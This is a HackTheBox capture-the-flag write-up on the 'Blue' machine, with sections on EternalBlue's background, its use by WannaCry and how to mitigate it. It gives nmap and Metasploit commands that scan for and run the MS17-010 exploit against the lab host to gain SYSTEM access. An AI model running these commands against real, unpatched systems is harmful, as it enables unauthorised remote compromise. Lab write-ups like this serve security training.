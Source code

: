 ```yaml
---
layout: post
title: 'HackTheBox - Blue'
date: 2018-01-19
author: Casey Mullineaux
cover: '/images/htb/blue/blue.png'
tags: hackthebox
---
```

Rated by the community as *a piece of cake*, this machine is probably one of the easiest boxes to complete on the [HackTheBox.eu](http://www.hackthebox.eu), but that doesn't mean that it doens't offer learning opportunities (see post-mortem).

![blue-difficulty](/images/htb/blue/blue-difficulty.png)

I was able to achieve system access by using the `EternalBlue` ([MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)) exploit via Metasploit.

# Hacking the box
1. [Enumeration](#enum)
2. [Exploitation](#exploit)
3. [Privilege escalation](#privesc)
4. [Deconstructing the hack](#deconstruct)

# <a name="enum"></a>Enumeration

The name of the box itself implies this box has something to do with the [very publicised](https://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch) EternalBlue exploit.

The vulnerability works by exploiting SMB, so I first ran an nmap scan and saw that port 445 (SMB) is open.

```bash
nmap -sC -sV -oA nmap/blue 10.10.10.40
```
![image1](/images/htb/blue/nmap-blue.png)

Going on my hunch, I used metasploit to explicitly scan for the EternalBlue vulnerability.
```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.10.40
exploit
```
![image2](/images/htb/blue/msf_eternalblue.png)

The results show that it's vunerable to EternalBlue.

# <a name="exploit"></a>Exploitation

I fired up the exploit module, and after setting the options, I triggered the exploit.
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.10.40
exploit
```
![image3](/images/htb/blue/eternalblue_exploit.png)

Easy win.

# <a name="privesc"></a>Privilege Escalation

None required. The exploit dumps us in directly as the `NT AUTHORITY\SYSTEM` user.

# <a name="deconstruct"></a>Deconstructing the hack

Although this box was easy to pop with the simplicity of Metasploit doing all the work, I found it very interesting to read up on EternalBlue exploit.

## Background

The exploit it self was derived from a tool created by the NSA of the same name, and is one of many tools that make up the NSA hacking framework called FuzzBunch (much like their own version of Metasploit). On April 14 2017, a hacking group known as [The Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers) leaked the tool to the public as part of their fifth leak in a series, this one titled "Lost in Translation".

The exploit itself utilizes three separate vulnerabilities/bugs in the SMB1.0 protocol, to achieve remote code execution on the victim host. All versions of Windows prior to Windows 8 are effected.

## Weaponization

No more than a month after the vulnerabilty was made public, it was weaponized in the very popular [WannaCry Randomware Attack](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) that made its way throughout the internet in May 2017. WannaCry encrypts the infected host's system and demands ransom payments of bitcoin for the decryption keys. A victim failing to make payment before the timer expires would see their precious cat pictures forever encrypted.

![Wana_Decrypt0r_screenshot](/images/htb/blue/Wana_Decrypt0r_screenshot.png)

## Mitigation

Microsoft have released patches for the vulnerabilities under the [MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) security bulletin.

[This Microsoft support article](https://support.microsoft.com/en-us/help/2696547/how-to-detect-enable-and-disable-smbv1-smbv2-and-smbv3-in-windows-and) demonstrates various methods to detect and mitigate the issue by disabling SMB on Windows systems such as; using powershell, modifying the registry, and using Group Policy.

